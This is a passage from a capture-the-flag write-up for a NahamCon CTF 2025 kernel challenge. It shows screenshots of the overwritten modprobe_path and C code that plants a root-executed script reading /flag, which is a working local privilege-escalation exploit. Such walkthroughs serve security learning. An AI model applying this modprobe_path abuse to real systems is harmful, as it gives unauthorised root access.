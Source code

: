 ![alt](/img/CTFTime/NahamCon_CTF_2025/Aftermodprobe.png)

If we see the modprobe_path value currently is `/home/user/w` our execute script.

![alt](/img/CTFTime/NahamCon_CTF_2025/modprobe_path_value.png)

Finally, we can create a function to abuse `modprobe_path`. I used the function from [the guide before](https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/) and made a few adjustments so it works with `/home/user`

```c
char *win_condition = "/home/user/w";
char *dummy_file = "/home/user/d";
char *res = "/home/user/flag";

const char* arb_exec = 
"#!/bin/sh\n"
"cat /flag > /home/user/flag\n"
"chmod 777 /home/user/flag";

void abuse_modprobe() {
    puts("[+] Hello from user land!");
    if (stat("/home/user", &st) == -1) {
        puts("[*] Creating /home/user");
        int ret = mkdir("/home/user", S_IRWXU);
        if (ret == -1) {
            puts("[!] Failed");
            exit(-1);
        }
    }

    puts("[*] Setting up reading '/flag' as non-root user...");
    FILE *fptr = fopen(win_condition, "w");
    if (!fptr) {
        puts("[!] Failed to open win condition");
        exit(-1);
    }

    if (fputs(arb_exec, fptr) == EOF) {
        puts("[!] Failed to write win condition");
        exit(-1);
    }

    fclose(fptr);

    if (chmod(win_condition, S_IXUSR) < 0) {
        puts("[!] Failed to chmod win condition");
        exit(-1);
    };
    puts("[+] Wrote win condition -> /home/user/w");
    fptr = fopen(dummy_file, "w");
    if (!fptr) {
        puts("[!] Failed to open dummy file");
        exit(-1);
    }

    puts("[*] Writing dummy file...");
    if (fputs("\x37\x13\x42\x42", fptr) == EOF) {
        puts("[!] Failed to write dummy file");
        exit(-1);
    }
    fclose(fptr);
    
    if (chmod(dummy_file, S_ISUID|S_IXUSR) < 0) {
```